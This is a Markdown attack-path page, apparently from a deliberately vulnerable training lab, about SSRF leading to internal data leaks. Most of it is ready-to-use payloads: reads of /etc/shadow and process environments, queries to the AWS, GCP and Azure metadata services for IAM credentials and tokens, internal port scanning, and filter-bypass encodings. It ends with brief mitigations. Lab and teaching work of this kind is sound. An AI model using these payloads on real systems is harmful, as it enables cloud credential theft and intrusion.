

# Attack Path 7: SSRF → Internal Leak

## Overview
SSRF ile cloud meta-data / iç servisler erişimi.

## Mermaid Diagram


## Adım Adım Senaryo

1. **SSRF tetikle**: `/fetch?url=file:///etc/passwd`.
2. **Cloud metadata**: `http://169.254.169.254/latest/meta-data/iam/security-credentials/`.
3. **IAM keyleri al → cloud pivot.**

## Vulnerable Endpoints
- `/vuln/ssrf?url=` - Server-Side Request Forgery
- `/vuln/fetch?url=` - Alternative SSRF endpoint

## Example Payloads

### Local File Read
```
/vuln/ssrf?url=file:///etc/passwd
/vuln/ssrf?url=file:///etc/shadow
/vuln/ssrf?url=file:///proc/self/environ
```

### AWS Metadata
```
/vuln/ssrf?url=http://169.254.169.254/latest/meta-data/
/vuln/ssrf?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
/vuln/ssrf?url=http://169.254.169.254/latest/user-data
```

### GCP Metadata
```
/vuln/ssrf?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

### Azure Metadata
```
/vuln/ssrf?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01
```

### Internal Service Scanning
```
/vuln/ssrf?url=http://localhost:6379/  (Redis)
/vuln/ssrf?url=http://localhost:27017/ (MongoDB)
/vuln/ssrf?url=http://localhost:9200/  (Elasticsearch)
/vuln/ssrf?url=http://localhost:5432/  (PostgreSQL)
```

## Bypass Techniques

### DNS Rebinding
```
Use your-domain.com that resolves to 169.254.169.254
```

### URL Encoding
```
http://169.254.169.254 → http://%31%36%39.%32%35%34.%31%36%39.%32%35%34
```

### IPv6
```
http://[::1]/ (localhost)
http://[0:0:0:0:0:ffff:169.254.169.254]/
```

### Alternative IP Formats
```
http://2852039166/ (decimal IP)
http://0xA9FEA9FE/ (hex IP)
http://0251.0376.0251.0376/ (octal IP)
```

## Difficulty
**Medium**

## Mitigation
- Whitelist allowed URLs
- Block internal IP ranges
- Block cloud metadata endpoints
- Use egress firewall
- Disable file:// protocol
